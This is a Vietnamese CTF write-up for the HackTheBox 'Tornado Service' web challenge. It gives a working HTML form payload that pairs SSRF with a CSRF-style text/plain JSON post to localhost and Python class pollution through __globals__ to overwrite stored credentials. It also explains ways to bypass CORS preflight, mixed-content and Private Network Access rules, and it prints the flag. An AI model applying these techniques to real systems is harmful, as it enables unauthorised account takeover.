




# Tornado Service (HTB Medium challenge)
---

## Overview
Trang web cho phép report URL để bot review. Có chức năng update machine nhưng chỉ được update từ request từ localhost. Mục tiêu của challenge là report một URL của trang web attacker đang host một html có chứa mã độc. Điều bot truy cập vào link dính XSS và gửi request tương tác với các service của server để có được tài khoản admin. Đăng nhập và lấy flag.

## Source code analysis
```
.
├── / [GET]
├── /get_tornados [GET]    
├── /update_tornados [POST]                      POST: machine_id, status
├── /report_tornados [GET]                       POST: ip
├── /login [POST]                                POST: username, password
└── /stats [GET]                                 For account logged in only
```

- `/`: Trả về dashboard
- `/login`: Nhận POST request với username, password
- `/stats`: Trả về flag nếu như đã nhận được session sau khi đăng nhập
- `/get_tornados`: Nhận về json response chứa thông tin về các bão (machine_id, status, ip)
- `/report_tornado`: nhận id từ parameter, tạo url theo ip đó rồi gọi bot mở trình duyệt truy cập vào url và chờ 10 giây





- `/update_tornado`: nếu request từ localhost thì cho vào, update tính chất của tornado một cách truy hồi theo input được gửi lên




Server có list các tài khoản với mật khẩu random, cần có tài khoản để đăng nhập và đọc flag

Với các endpoint của server đều được cài đặt các header:


`Access-Control-Allow-Origin`:`*`<br>
`Access-Control-Allow-Methods`:`GET,POST,PUT,DELETE,OPTIONS`<br>
`Access-Control-Allow-Headers`:`Content-Type, Authorization, x-requested-with`<br>

## Vulnerability Analysis
- Ở `report`, server nhận `ip` gửi lên và cho bot truy cập vào url được tạo từ ip đó một cách trực tiếp mà không có sàng lọc, kiểm tra ==> Server-side request forgery (SSRF)
- Trong hàm `update_tornados`, tin vào các `key:value` đầu vào và update dựa trên đó chứ không ép buộc chỉ update những thuộc tính cho phép.
- Chính sách **CORS** quá dễ dãi: `Access-Control-Allow-Origin`:`*`, header này cho phép trang nào cũng có quyền tương tác với server.
- Browser của bot không được cài đặt tính năng: tắt execute js => Cross-site request forgery (XSS)
``` python
USERS = [	
	{
		"username": "lean@tornado-service.htb",
		"password": generate(32),
	},
	{
		"username": "xclow3n@tornado-service.htb",
		"password": generate(32),
	},
	{
		"username": "makelaris@tornado-service.htb",
		"password": generate(32),
	}
]
```

## Exploitation

- Viết payload và để ở server của mình (webhook). Cài đặt là response khi được request tới.

**Payload**
```html
<!DOCTYPE html>
<html>
<body>
    <h1>Attacking Tornado...</h1>
    
    <form id="bbt" action="http://127.0.0.1:1337/update_tornado" method="POST" enctype="text/plain">
        <input type="hidden" name='{"machine_id": "host-6667", "__class__": {"__init__": {"__globals__": {"USERS": [{"username": "lean@tornado-service.htb", "password": "123"}]}}}, "trash": "' value='"}'>
    </form>

    <script>
        window.onload = function() {
            console.log("[+] Submitting form to localhost!");
            document.getElementById('bbt').submit();
        };
    </script>
</body>
</html>
```

Đưa cho report với id là `webhook-ip?`: Ví dụ `abcdefgh.requestrepo.com?`. Dấu `?` để vô hiệu hóa phần `/agent_details` ở trong
`http://{ip_param}/agent_details` thành query.

URL sau khi được tạo là: `http://abcdefgh.requestrepo.com?/agent_details`. Bot mở trình duyệt truy cập vào URL. Trang webhook trả về payload html ở trên. 

Bot dính XSS và code được thực thi, gửi request tới endpoint `/update_tornado` và update danh sách tài khoản `USERS` thành tài khoản mật khẩu của mình.

Đăng nhập bằng cách gửi **POST** request tới **/login** và **GET** request tới **/stats** để lấy flag.

**Giải thích payload**: 
1) **Update function**: Vì trong hàm update của server cho phép update truy hồi theo các thuộc tính, điều này vô hình chung lại mở ra con đường Python object pollution. Sử dụng kĩ thuật khai thác tương tự như **Server-side template injection (SSTI)** để duyệt từ object (thứ được truyền vào) leo sang `globals` rồi tới các biến global - ở đây là `USERS`. Ở đây nếu như dùng `USERS[0]["password"] = "newPassWord"` để ghi đè tài khoản thứ nhất thì sẽ xảy ra lỗi.

Vì khi duyệt tới `USERS` ở đoạn 
```python
if hasattr(updated, "__getitem__"):       
    if updated.get(index) and type(value) == dict:
```

thì `USERS` lúc này là list, có attribute `__getitem__` nhưng xuống dưới, type value là dict nhưng list lại không có attribute get nên sẽ xảy ra lỗi.


Thay vì sửa một index, mình ghi đè cả biến **USERS** bẳng payload ở trên. 
```python
if hasattr(updated, "__getitem__"):
    if updated.get(index) and type(value) == dict:
        update_tornados(value, updated.get(index))
    else:
        updated[index] = value   
```
Khi tới **updated.get(index)**, lúc này **updated** là `__globals__`, **index** là **USERS**, thì `globals` có `USERS` tất nhiên nhưng value lại là một list nên nó nhảy xuống nhánh else ở dưới và gán đè.


2) **Lý do không fetch bình thường mà dùng form submit**: Khi ta dùng fetch gửi POST request tới server với Content-Type: application/json (Vì server chỉ nhận cái này do nó dùng `data = json.loads(self.request.body)`). Điều này khiến cho request của mình có Header tương ứng. Điều này được coi là một complex request và có **Preflight Request** - **OPTIONS** request tới server.

Dù server có trả về method hợp lệ bao gồm OPTIONS, cho phép Content-Type là application/json và cho phép request xuất phát từ webhook (`Access-Control-Allow-Origin`:`*`) nhưng phần `BaseHandler` không có hàm để xử lí OPTIONS request nên khi gặp được request này server không phản hồi và gây ra lỗi.

==> Cần gửi data ở dạng json nhưng Content-Type khác application/json
==> Dùng HTML form để gửi JSON. Đọc thêm tại [đây](https://systemoverlord.com/2016/08/24/posting-json-with-an-html-form.html) và [đây nữa](https://stackoverflow.com/questions/19446544/post-request-to-include-content-type-and-json)

**Giải thích ngắn gọn**: 
```html
<form id="bbt" action="http://127.0.0.1:1337/update_tornado" method="POST" enctype="text/plain">
    <input type="hidden" name='{"machine_id": "host-6667", "__class__": {"__init__": {"__globals__": {"USERS": [{"username": "lean@tornado-service.htb", "password": "123"}]}}}, "trash": "' value='"}'>
</form>
```
Mặc định khi dùng form submission thì Content-Type là **x-www-form-urlencoded**. Việc để `enctype="text/plain` để báo browser rằng khi thì không được URL encode phần input, để nó là text thuần.

Field **name** và **value** không được để trống và khi submit, browser tự ghép chúng bằng dấu `=` ở giữa. Lợi dụng điều này ta viết chèn thêm một cặp key:value khác là `trash` để khi được ghép lại thì ta có `{"USERS": [{"username": "lean@tornado-service.htb", "password": "123"}]}}}, "trash": "="}`


Như vậy là đã có thể giải quyết được bài này.


Tiếp tục đăng nhập và lấy flag


### Easter Egg
Việc dùng form submission lại vô tình bypass được các network policy đó là: **Mix-content** và **Private Network Access (PNA)**.

#### 1) `Mix-content policy`: 
[Đọc thêm ở đây](https://www.bing.com/ck/a?!&&p=f7553245ba7fefda6b036649e819e9d998121c3d6c92d5e1cc9a72ff76dac0b6JmltdHM9MTc3NjM4NDAwMA&ptn=3&ver=2&hsh=4&fclid=3a949384-d2e2-625b-0573-84a8d3cd63ab&psq=mix-content+policy&u=a1aHR0cHM6Ly9kZXZlbG9wZXIubW96aWxsYS5vcmcvZW4tVVMvZG9jcy9XZWIvU2VjdXJpdHkvRGVmZW5zZXMvTWl4ZWRfY29udGVudA)

Giải thích ngắn gọn trong trường hợp này thì việc gửi `fetch` hay `XMLHttpRequest` từ `https` về `http` sẽ bị chặn do không được phép tải resource từ **insecure context** sang **secure context**.

> Tuy nhiên lại có ngoại lệ:


Việc request thông qua thay đổi URL (top-level-navigation) lại được phép. (Mà form submission được coi như là một `Top-Level-Navigation` nên bypass được cái này)

Đọc xuống dưới **Loading locally delivered mixed-resources**, document nói là việc fetch tới `http://127.0.0.1` thì lại không bị chặn. (ở đây mình đang gọi tới localhost luôn nên không sao)

`Tổng kết lại`: 
- Top-level-navigation bypass mix-content khi fetch tới các server dùng http từ trang dùng https (form-submit).
- Fetch từ https tới localhost thì được policy cho phép

Ở bài này thì rõ ràng là chúng ta được cho phép gọi tới localhost, tuy nhiên cách dùng form submit của mình vô tình bypass được cái kia nên mình vẫn viết ra đây để người đọc tham khảo (cũng là để mình học =)))).

#### 2) `Private Network Access (PNA)`
[Đọc thêm ở đây](https://developer.chrome.com/blog/private-network-access-update-2024-03)

Giải thích ngắn gọn trong trường hợp này thì policy cấm việc gọi request từ website vào các private network của server. (ở bài này chúng ta đang gọi tới localhost từ public webhook nên không được phép)

Và chỉ **Secure Context** mới được phép gửi request tới các mạng nội bộ. (Đọc thêm về **Secure Contexts ở [đây](https://developer.mozilla.org/en-US/docs/Web/Security/Defenses/Secure_Contexts))


> Và vẫn có ngoại lệ (của em)


Việc mở window mới tới localhost thì không bị ràng buộc bởi policy này. =>>> `Form submission` để bypass.

Như vậy là bài này dùng một form submission mà bypass được 3 rào cản: (`Content-Type: application/json`, `Mix-content` policy và `Private Network Access` policy)

> Flag: ***HTB{s1mpl3_stuff_but_w1th_4_tw15t!}***